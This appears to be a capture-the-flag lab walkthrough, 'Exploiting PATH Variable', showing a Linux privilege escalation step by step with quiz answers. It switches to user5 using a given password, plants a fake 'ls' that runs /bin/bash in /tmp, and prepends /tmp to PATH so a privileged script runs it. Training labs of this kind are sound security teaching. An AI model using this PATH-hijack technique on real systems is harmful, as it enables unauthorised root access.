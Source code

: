 No answer needed

# [Task 9] Exploiting PATH Variable

**#1 Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"**

```bash
user4@polobox:~$ su - user5
Password: 

user5@polobox:~$
```  

No answer needed
  
**#2 Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?**

```bash
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
```

Answer: ls  

**#3 Now we know what command to imitate, let's change directory to "tmp".**

```bash
user5@polobox:~$ cd /tmp/
user5@polobox:/tmp$ 
```

No answer needed

**#4Now we're inside tmp, let's create an imitation executable. The format for what we want to do is:**

**echo "[whatever command we want to run]" > [name of the executable we're imitating]**

**What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating**

```bash
user5@polobox:/tmp$ echo "/bin/bash" > ls
```

Answer: echo "/bin/bash" > ls

**#5 Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?**

```bash
user5@polobox:/tmp$ chmod +x ls
```

Answer: chmod +x ls

**#6 Now, we need to change the PATH variable, so that it points to the directory where we have our imitation ***"ls"*** stored! We do this using the command ***"export PATH=/tmp:$PATH"*****
